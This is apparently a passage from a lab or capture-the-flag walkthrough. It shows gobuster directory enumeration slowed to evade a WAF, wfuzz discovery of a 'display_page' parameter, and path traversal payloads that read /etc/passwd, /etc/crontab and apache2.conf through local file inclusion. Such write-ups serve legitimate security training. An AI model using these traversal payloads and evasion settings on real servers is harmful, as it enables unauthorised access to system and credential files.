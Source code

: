 >[!Note]
>As that i got many 403 codes, the server apparently has `WAF` (Web Application Firewall)

For this, i set up delay `500ms` and threads 1:

```bash
gobuster dir -u http://192.168.0.101 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 1 -d 500ms
```

**OUTPUT**

```bash
/.php                 (Status: 403) [Size: 18]
/index.php            (Status: 200) [Size: 25]
/includes.php         (Status: 200) [Size: 2]
```

**Key points:** 
- `includes.php`: It could include sensitive code (include('config.php'), credentials, etc.).

### 2.1. Fuzzing to `/includes.php`

```bash
wfuzz -u "http://192.168.0.101/includes.php?FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hh 2 --hc 404
```

**OUTPUT**

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                
=====================================================================

000204417:   200        28 L     41 W        2 Ch        "display_page"
```


### 2.2. Fuzzing to parameter `display_page`

```bash
wfuzz -u "http://192.168.0.101/includes.php?display_page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 2 --hc 404
```

**OUTPUT**

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                
=====================================================================

000000016:   200        28 L     41 W       1460 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%
                                                        2e/%2e%2e/%2e%2e/etc/passwd"                           
000000023:   200        28 L     41 W       1460 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"               
000000020:   200        28 L     41 W       1460 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2
                                                        Fetc%2Fpasswd"                                         
000000126:   200        23 L     190 W      1044 Ch     "/etc/crontab"                                         
000000124:   200        21 L     109 W      1013 Ch     "/etc/apt/sources.list"                                
000000116:   200        228 L    1115 W     7223 Ch     "/etc/apache2/apache2.conf"                            
```